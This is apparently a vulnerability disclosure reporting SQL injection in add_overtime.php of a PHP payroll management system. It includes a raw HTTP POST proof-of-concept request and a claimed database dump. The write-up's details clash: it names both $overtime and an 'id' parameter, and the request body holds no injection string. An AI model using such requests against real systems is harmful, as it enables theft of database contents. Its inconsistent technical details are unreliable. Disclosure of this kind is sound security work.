 # payroll-management-system-in-php has sql injection in add_overtime.php

## supplier 
https://code-projects.org/payroll-management-system-in-php-with-source-code/
## Vulnerability parameter
add_overtime.php

## describe

An unrestricted SQL injection attack exists in payroll-management-system in add_overtime.php. The parameters that can be controlled are as follows: $overtime. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   $overtime parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/f41e20a8-140c-4b64-9ce9-a04eca031884)



## POC

```
POST /add_overtime.php HTTP/1.1
Host: payroll
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://payroll
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://payroll/home_employee.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=85u4m47klj7ldjr47mclti8mr6
Connection: close

rate=1.txt
```

**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
